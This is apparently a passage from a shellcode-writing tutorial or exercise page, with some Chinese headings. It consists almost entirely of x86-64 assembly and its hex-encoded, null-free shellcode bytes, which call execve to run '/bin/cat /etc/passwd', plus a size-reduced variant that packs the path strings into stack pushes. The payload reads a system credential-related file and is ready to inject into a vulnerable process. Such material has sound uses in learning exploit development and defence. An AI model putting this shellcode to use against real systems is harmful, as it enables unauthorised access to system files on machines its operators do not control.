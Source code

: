 ```

       mov rsi, rsp                   ; Copies this entire string from the Stack into RSI.

       push word 59                   ; Pushes the value 59 (syscall value for execve in the x64 format).
       pop ax                         ; Pops this value into AX so there are no NULLs.
       syscall                        ; The syscall is executed.
```



```
\x48\x31\xc0\x48\x31\xed\x50\x48\xbd\x63\x2f\x70\x61\x73\x73\x77
\x64\x55\x48\xbd\x2f\x2f\x2f\x2f\x2f\x2f\x65\x74\x55\x48\x89\xe5
\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x63\x61\x74\x53\x48\x89\xe3\x48
\x89\xe7\x50\x48\x89\xe2\x55\x53\x48\x89\xe6\x66\x6a\x3b\x66\x58
\x0f\x05
```

#### 2.改 59bytes

/bin/cat   	0x7461632f6e69622f

//////et		0x74652f2f2f2f2f2f

c/passwd		0x6477737361702f63

/etc/pas			0x7361702f7463652f

swd					0x647773

```
global _start
section .text

_start:
      ;xor rdx,rdx
      ;add rdx,0x647773
	  ;push rdx
      ;mov rdx,0x7361702f7463652f
      
     xor rax,rax
     push rax
      mov rbx,0x6477737361702f63
      push rbx
      mov rbx,0x74652f2f2f2f2f2f
      push rbx
      mov rbx,rsp	;rbx=[/etc/passwd]
      
      
      push rax
      
      mov rcx,0x7461632f6e69622f
      push rcx
      mov rdi,rsp		;rdi=[/bin/cat]
      
      push rax
      push rbx
      push rdi
      mov rsi,rsp
      
      xor rdx,rdx
      add rax,59
      syscall
```
